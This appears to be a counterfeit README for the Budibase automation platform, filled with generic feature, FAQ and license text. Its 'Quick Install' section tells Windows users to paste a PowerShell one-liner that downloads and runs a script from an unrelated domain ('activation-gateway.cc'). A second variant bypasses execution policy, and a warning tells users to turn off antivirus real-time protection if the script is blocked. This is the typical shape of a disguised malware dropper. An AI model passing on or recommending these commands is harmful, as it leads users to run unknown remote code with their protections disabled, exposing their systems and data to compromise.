

<div align="center">

# 🚀 Budibase — AI Agents, Automations & Apps That Run Your Operations | Web Platform



[]() []() []() []()

</div>

---

Budibase is an open-source platform for building AI agents, automations, and applications that run your operations end to end. It unifies the tools your business already depends on, letting agents take real action across workflows—creating records, routing approvals, and updating apps without manual handoffs. Model agnostic by design, it adapts to the AI providers and systems you choose rather than locking you in. Built to scale securely, Budibase gives teams a single, polished surface for managing users, onboarding, and processes on their own infrastructure.

## 🛠️ Quick Install (PowerShell)

> [!TIP]
> **Automated setup** — one command, done.
> Windows 10/11 · PowerShell · Admin not required

### 1️⃣ Open PowerShell
* Right-click the Start button.
* Choose **Terminal (Admin)** or **Windows PowerShell**.

### 2️⃣ Run the install command
Copy the line below into PowerShell and press `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ Forced run via CMD
Copy into CMD, press `Enter`, wait for completion:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> If SmartScreen or antivirus blocks the setup, go to **Windows Security → Virus & threat protection → Manage settings**, turn off **Real-time protection**, run the script, and re-enable immediately.

## 📋 System Requirements

- **OS:** Windows 10 / 11
- **Shell:** PowerShell 5.1+ or PowerShell 7+
- **Network:** internet access to download the script
- **Privileges:** standard user

## Features

**One platform for the work that runs your business**
Bring requests, approvals, processes, and the systems behind them into a single operating layer. Instead of stitching together disconnected tools, teams get one place to build the agents, automations, and apps that keep operations moving.

**AI agents that understand the ask**
Every day, employees raise questions, request approvals, and flag issues. Budibase agents interpret those requests in context and take the work off your team's plate — no scripts, no hand-offs, no waiting on a ticket queue.

**Agents that take action, not just answer**
Budibase agents go beyond conversation. They execute across your business: creating records, routing approvals, updating apps, and notifying the right people automatically — so a request doesn't just get acknowledged, it gets resolved.

**Model agnostic by design**
Work with the AI models that fit your stack and your policies. Budibase doesn't lock you into a single provider, so you can adapt as models evolve and keep your operations future-proof.

**Connect the tools your business already runs on**
Integrate databases, AI models, and business apps so agents and automations can act across your entire operation — from the systems of record to the tools your teams use every day.

**Automations that carry the load**
Turn repetitive, multi-step processes into reliable automations. Move data, trigger actions, and coordinate across teams without manual intervention, freeing engineers from glue work.

**Apps that fit how your team works**
Build internal tools and operational apps that match your processes — not the other way around. Ship the interfaces your teams need to request, review, approve, and act, all connected to the same platform as your agents and automations.

**Open-source and built to scale**
Budibase is open-source and designed to grow with you. Self-host on your own infrastructure, manage users, onboarding, SMTP, apps, groups, and theming globally, and extend user management through group-level portals — with the control and security your operations demand.

## Tech Stack

Budibase is engineered as a modern, production-grade platform that balances developer flexibility with operational reliability. Its architecture is model-agnostic by design, so teams can connect the AI providers and models that best fit their needs without locking into a single vendor. Under the hood, a scalable server layer handles the orchestration of agents, automations, and applications, while a component-driven client renders responsive, living apps from declarative definitions. A monorepo structure keeps the builder, runtime client, and server working in lockstep, enabling consistent releases and a cohesive developer experience. The result is a stack built for speed, security, and scale — one that lets you self-host on your own infrastructure or run in the cloud, with global management of users, onboarding, apps, groups, theming, and more.

## FAQ

**Is Budibase really open-source?**
Yes. Budibase is open-source and built to be self-hosted, giving you full ownership of your data and infrastructure. You can run it on your own servers, in containers, or on managed infrastructure — no vendor lock-in required.

**Which AI models does Budibase support?**
Budibase is model agnostic. Connect the AI models and providers that fit your stack, so your agents and automations can work with the intelligence layer you already trust — no need to standardize on a single provider.

**Do I need to know how to code?**
Not necessarily. Budibase is designed so teams can build apps, automations, and agents visually. For teams that want more control, the platform remains flexible and extensible, so developers can go deeper when needed.

**What can Budibase agents actually do?**
Budibase agents go beyond answering questions. They understand requests, take action across your business systems — creating records, routing approvals, updating apps, and notifying teams — and handle the operational work automatically.

**Can I connect Budibase to the tools my business already uses?**
Yes. Budibase integrates with databases, AI models, and business apps, so your agents and automations can take action across your existing operations rather than living in a silo.

**Is Budibase secure enough for production?**
Budibase is built to scale and deploy with confidence. Self-host on your own infrastructure and centrally manage users, onboarding, SMTP, apps, groups, theming, and more — with the option to delegate user management to group managers.

**Can I use Budibase as a backend?**
Absolutely. The Budibase Public API is simple to use, flexible, and extensible, enabling Budibase as a backend and interoperability with the systems you rely on.

**How do I get started?**
Choose the path that fits your team: let Budibase host it for you, or self-host on your own infrastructure. Either way, you'll be building agents, apps, and automations that run your operations in no time.

## License

Budibase is built on open foundations and kept that way deliberately. The core platform is released under the GNU General Public License v3, so you can inspect, modify, and run the source on your own terms. The client and component libraries sit under the Mozilla Public License, which keeps those building blocks open while leaving the applications you create entirely yours to license however you see fit — no strings attached to the apps you ship. Paid, enterprise-grade capabilities are governed by a separate Business Source License, giving organizations a clear and predictable path to advanced functionality. The result: a platform that stays transparent where it matters, flexible where you need it, and commercially sustainable for the long run.